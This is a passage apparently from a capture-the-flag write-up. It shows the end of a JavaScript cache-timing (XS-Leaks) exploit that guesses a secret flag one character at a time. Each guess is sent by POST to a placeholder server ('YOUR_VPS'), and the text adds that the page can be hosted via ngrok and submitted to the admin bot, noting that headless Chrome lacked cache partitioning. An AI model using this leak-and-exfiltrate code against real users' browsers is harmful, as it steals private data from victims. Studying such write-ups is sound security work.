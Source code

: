 ```html
        }
        total/=3
        if (total <= baseLine) {
          report(`isCached success, str=${str}, i=${i}, start=${start}, total=${total}`)
          return true
        }
      }
    }
    return false
  }

  async function main() {
    let flag = 'actf{yummy_'
    
    // NOTE: we can leak the charset first to speed up the process
    let chars = 'acefsmntuy_}'.split('')
    while(flag[flag.length - 1] !== '}') {
      for(let char of chars) {
        report('trying:'  + flag + char)
        if (await isCached(flag + char)) {
          flag += char
          report('flag:' + flag)
          break
        }
      }
    }
  }

  async function report(data) {
    console.log(data)
    // TODO: change to your VPS
    return fetch('https://YOUR_VPS/', { method: 'POST', body: data, mode: 'no-cors' }).catch(err => err);
  }
}
</script>
```

#### There is no cache partitioning

Some people find out the fact that cache partitioning didn't work in headless chrome (this one is an [example](https://ctf.zeyu2001.com/2021/uiuctf-2021/yana#this-shouldnt-have-worked)).

So you can use the previous script on your page, host it by ngrok and submit this url to admin.